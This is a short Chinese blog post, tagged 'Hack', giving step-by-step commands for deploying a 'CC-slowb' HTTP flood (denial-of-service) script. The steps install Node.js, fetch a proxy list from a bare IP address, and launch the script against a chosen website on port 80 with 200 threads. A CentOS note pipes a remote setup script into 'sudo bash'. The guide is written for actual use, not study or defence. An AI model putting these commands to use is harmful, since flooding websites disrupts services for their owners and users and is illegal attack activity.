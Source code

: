```yaml
---
title: CC-slowb脚本的基础搭建
date: 2024-06-26 16:05:50
tags: Hack
categories: Hack
---
```


我自己本身使用的是ubantu20

1、直接安装nodejs

```
sudo apt install -y nodejs
```

2、上传cc相关脚本

3、赋予777权限

```
chmod 777 slowb
```

4、安装curl 由于代码中需要用到代理所以每次执行命令前下载最新代理

```
 apt install curl
```

5、下载代理

```
curl -O http://15.204.18.143/proxy.txt
```

6、开始抚摸

```
./slowb 80 网址  proxy.txt 200 ua.txt
```

注意！！！：如果是centos环境需要执行（下载安装node环境）：

1、curl -fsSL https://rpm.nodesource.com/setup_16.x | sudo bash -

2、sudo yum install -y nodejs